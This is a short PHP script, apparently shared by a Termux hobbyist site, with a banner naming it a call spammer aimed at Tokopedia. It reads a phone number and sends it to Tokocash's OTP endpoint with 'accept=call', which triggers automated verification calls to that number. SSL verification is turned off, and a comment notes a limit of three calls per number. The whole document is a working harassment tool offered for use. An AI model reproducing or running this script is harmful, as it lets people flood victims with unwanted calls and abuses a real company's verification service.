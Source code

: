 # Toll-G
Termux.id

<?php
// Limit 3x Telpon Setiap Satu Nomor
function send($phone){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, "https://www.tokocash.com/oauth/otp");                      curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($ch, CURLOPT_HEADER, true);
        curl_setopt($ch, CURLOPT_POST, 1);
        curl_setopt($ch, CURLOPT_POSTFIELDS, "msisdn=$phone&accept=call");                        $asw = curl_exec($ch);
        curl_close($ch);
                echo $asw."\n";
}
echo "
############################################################
    Spammer Call From TOKOPEDIA
        Author By   : cursor99
        Support     : Kunjungi Website Kami
        Website     : https://termux.id
        Youtube     : *****
     Penggunaannya  : Bisa Menggunakan [08/62]
###########################################################\n";
echo "Nomor\nInput : ";
$nomor = trim(fgets(STDIN));
$execute = send($nomor);
print $execute;
?>


